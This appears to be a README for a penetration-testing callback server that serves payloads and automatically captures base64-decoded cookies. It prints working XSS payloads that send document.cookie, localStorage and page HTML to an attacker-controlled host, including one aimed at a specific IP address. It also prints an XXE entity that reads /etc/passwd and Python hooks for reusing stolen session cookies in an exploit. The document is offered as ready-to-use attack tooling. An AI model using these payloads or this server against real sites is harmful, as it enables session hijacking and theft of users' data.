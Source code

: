 # POC Server with Callback Hooks

Single HTTP server that serves payloads, logs requests, and **automatically captures cookies and other interesting data**.

## Features

- Serves files from `../payloads/` directory
- Logs ALL requests to `../logs/server.ndjson`
- **Auto-captures cookies** from `?cookie=` parameters (base64 decoded)
- **Event queue** for processing callbacks in your exploit
- CORS enabled for XSS testing
- Handles GET/POST/OPTIONS

## Quick Start

```bash
# Default: port 8000
python servers/server.py

# Custom port
python servers/server.py -p 8888
```

## Automatic Cookie Capture 🍪

When the server receives `?cookie=xxx`, it automatically:
1. Base64 decodes the value
2. Logs to `logs/events.ndjson`
3. Highlights in console with 🍪
4. Adds to event queue for processing

Example XSS payload:
```javascript
<img src=x onerror="fetch('http://192.168.45.162:8888?cookie='+btoa(document.cookie))">
```

## Using from Your Exploit

### Method 1: Wait for Callback (Blocking)
```python
from poc.utils.server_hooks import wait_for_callback

# Send your XSS payload
send_xss_payload()

# Wait for cookie (blocks up to 30 seconds)
cookie = wait_for_callback(timeout=30, param='cookie')
if cookie:
    print(f"Got session: {cookie}")
    # Use it for authenticated requests
```

### Method 2: Background Monitor (Non-blocking)
```python
from poc.utils.server_hooks import watch_events
import threading

def process_cookie(event):
    if event['type'] == 'cookie':
        print(f"Cookie: {event['data']}")
        # Process the cookie...

# Start background monitor
threading.Thread(target=watch_events, args=(process_cookie,), daemon=True).start()
```

### Method 3: Get Latest Cookie
```python
from poc.utils.server_hooks import get_latest_cookie

cookie = get_latest_cookie()
if cookie:
    print(f"Found: {cookie}")
```

## Other Callbacks

### XSS Data Exfiltration
```javascript
// Steal localStorage
fetch('http://your-server:8000?data=' + btoa(JSON.stringify(localStorage)))

// Steal DOM content
fetch('http://your-server:8000?html=' + btoa(document.body.innerHTML))
```

### Blind Exploitation
```python
# Confirm blind SQLi/XXE/etc
if injection_worked:
    requests.get(f"http://your-server:8000/blind?stage=sqli&success=true")
```

### SSRF/XXE
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://your-server:8000/xxe?file=/etc/passwd">]>
```

## Log Files

- `logs/server.ndjson` - All HTTP requests
- `logs/events.ndjson` - Interesting events (cookies, etc)

Monitor in real-time:
```bash
# All requests
tail -f logs/server.ndjson | jq .

# Just events
tail -f logs/events.ndjson | jq .

# Filter cookies
tail -f logs/events.ndjson | jq 'select(.type=="cookie")'
```

## Tips

1. **Start server first** - Before sending payloads
2. **Use external IP** - For remote targets
3. **Check firewall** - Ensure port is accessible
4. **Base64 encode** - Avoids URL encoding issues
5. **Unique paths** - Like `/xss-test-1` to identify injection points